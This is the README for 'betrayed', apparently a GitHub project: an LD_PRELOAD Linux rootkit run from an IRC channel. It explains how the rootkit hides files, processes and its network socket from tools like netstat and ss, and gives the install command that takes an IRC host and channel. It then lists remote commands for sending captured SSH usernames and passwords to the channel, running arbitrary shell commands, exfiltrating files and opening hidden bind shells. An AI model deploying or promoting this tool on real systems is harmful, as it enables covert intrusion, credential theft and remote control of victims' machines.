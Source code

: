 # betrayed
### Basic info
betrayed is an LD_PRELOAD Linux rootkit which is controlled mainly from a IRC channel.</br>
It is free of any dependencies, and installs near enough instantly.</br>
Files and processes are hidden with a magic GID, and the connection to the IRC server is hidden from plain sight. Tools like `netstat` and `ss` will not show betrayed's socket connection.</br>
Upon setup, betrayed will begin to fork from newly spawned processes, of course only if there is no other instance of the main process.</br>
betrayed's code is a very heavily modified and (de)restructured version of bedevil.
#### Usage
`./install.sh irc.host "#channel"` will install betrayed.</br>
Upon completing installation, install.sh will `cat /dev/null`, which will cause betrayed to execute its initial fork process. Even without doing `cat /dev/null` at the end of the installation, any newly spawned process will initiate the connection to the IRC server.</br>
<b>Compile only:</b> `COMPILE_ONLY=1 ./install.sh ...` will compile betrayed.so in your cwd.</br>
</br>
Once installed, and assuming you are in your target channel, you will see a new user with a random nick join your channel. That is essentially the box that you installed betrayed on.
#### Available commands
 * !ssh_logs [nick] (reads outgoing SSH logs, sends usernames and passwords to your desired IRC channel)
 * !sh [nick] [command] (executes commands on chosen server, and sends command output to the channel)
 * !read_file [nick] [path] (sends contents of path to IRC channel)
 * !bind [nick] [port] (creates a hidden /bin/sh bind shell on given port which you can connect to)
 * !kill [nick]/all (kills chosen iteration of betrayed. removes all respective rootkit files and disconnects)